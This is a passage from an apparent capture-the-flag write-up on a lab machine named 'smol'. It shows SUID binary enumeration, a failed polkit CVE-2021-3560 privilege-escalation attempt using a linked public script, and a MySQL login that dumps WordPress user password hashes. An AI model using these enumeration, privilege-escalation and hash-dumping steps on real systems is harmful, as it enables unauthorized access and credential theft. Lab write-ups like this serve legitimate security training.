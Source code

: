 ```bash
www-data@smol:/home$ find / -type f -perm /4000 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```
maybe polkit has vulns.

Whatever lets run linpeas.

And when I runned linpeas it directly sayed me that

Vulnerable to CVE-2021-3560

which is polkit privilage escalation.

We can use this <https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation>
bash script to escalate privilages.

I tried this but it didn't worked. So i guess we can try to log into mysql.


```bash
www-data@smol:/tmp$ mysql -u wpuser -p'******************' -D wordpress
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 419
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Lets look enumerate more.



```bash
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+-----------------------------------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key                           | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+-----------------------------------------------+-------------+------------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 | 1751629487:$P$Bj52G7q0ddwJVNl/oA7EW5CKSFanWB0 |           0 | admin                  |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                                               |           0 | wordpress user         |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                                               |           0 | Jose Mario Llado Marti |
```